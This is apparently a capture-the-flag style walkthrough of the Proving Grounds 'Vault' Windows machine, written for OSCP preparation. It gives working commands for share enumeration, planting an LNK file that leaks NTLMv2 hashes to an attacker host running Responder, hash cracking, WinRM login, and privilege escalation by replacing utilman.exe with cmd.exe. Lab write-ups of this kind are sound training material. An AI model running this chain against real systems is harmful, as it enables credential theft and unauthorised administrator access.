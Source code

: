 ```yaml
---
title: Vault Walkthrough - Proving grounds
tags: NTLMv2 SeRestorePrivilege
categories: Windows
---
```

In this entry I will solve the proving grounds Vault machine. It is a Windows machine in the TJ Null list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Service enumeration

`nmap -sC -sV -p135,139,53,3389,445,3269,9389,636,593,5985,389,88,464,3268 -Pn -o targeted.txt 192.168.219.172`

![046db56c571a4d9dba18aa347f708bde.png](/assets/img/screenshots/Vault/046db56c571a4d9dba18aa347f708bde.png)

# Samba enumeration

I can not connect witha  null session, so I try with "guest" username, also I try to bruteforce usernames using rid-brute parameter.

`crackmapexec smb 192.168.219.172 --shares -u 'guest' -p '' --rid-brute`

![d9e5a4c131df2fe0861e7a1d57d7fe27.png](/assets/img/screenshots/Vault/d9e5a4c131df2fe0861e7a1d57d7fe27.png)

I try asp reproast attack with the found users but I have no luck.

The previous image shows the permissions (Read & Write), as Ii can upload files to DocumentShare, I try to find a possible attack vector and I come across with this [post](https://vegardw.medium.com/using-lnk-files-to-steal-netntlmv2-hashes-while-living-off-the-land-63a10d35711d)

![678bcbd99a2fd7a22eec9206bc3bfcc3.png](/assets/img/screenshots/Vault/678bcbd99a2fd7a22eec9206bc3bfcc3.png)

# LNK file upload to steal NTLMv2 hashes

I find this [tool](https://github.com/dievus/lnkbomb) on Github that automates all the process

I start the responder in my attacker machine ready to get the hashes and run lnkbomb.py

`sudo responder -I tun0 -v`

`python3 lnkbomb.py -t 192.168.219.172 -a 192.168.45.201 -s DocumentsShare -u guest -p '' -n DC --windows`

![5b1ad1aa74da9d7b226b9c555ed66111.png](/assets/img/screenshots/Vault/5b1ad1aa74da9d7b226b9c555ed66111.png)

I check the file has been uploaded

![1a6eeb7824884ac399fa7a9a161b1314.png](/assets/img/screenshots/Vault/1a6eeb7824884ac399fa7a9a161b1314.png)

I go back to the responder tab and the hash for anirudh user is shown

![789293711a0c18b39557a9ff0b4e6fa3.png](/assets/img/screenshots/Vault/789293711a0c18b39557a9ff0b4e6fa3.png)

Then I crack it , fort that, i copy paste the hash to a file and then run hashcat

![e807728b98806e04ba8b73d24b072830.png](/assets/img/screenshots/Vault/e807728b98806e04ba8b73d24b072830.png)

`hashcat hash.txt /usr/share/wordlists/rockyou.txt`

![2b0e143db1e92c6202312b8f94c58da2.png](/assets/img/screenshots/Vault/2b0e143db1e92c6202312b8f94c58da2.png)

After getting the password, I log in with evilwinrm to the victim machine

`evil-winrm -i vault.offsec -u 'ANIRUDH' -p 'SecureHM'`

# Privesc SeRestorePrivilege

Running `whoami /priv` I get the following:

![03379d084d672c9a4a2c0b37856217f7.png](/assets/img/screenshots/Vault/03379d084d672c9a4a2c0b37856217f7.png)

I find on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) a way to escalate

![1d81924e1788e9a749e6a4824eff0081.png](/assets/img/screenshots/Vault/1d81924e1788e9a749e6a4824eff0081.png)

I run

`mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old`

`mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe`

Then, connect though rdp and do WIN+U, a cmd will appear with Adminsitrator privileges

`rdesktop 192.168.219.172`

![1604b85701f435f32d8bfcb13422dcdc.png](/assets/img/screenshots/Vault/1604b85701f435f32d8bfcb13422dcdc.png)

Pwn3d! :D
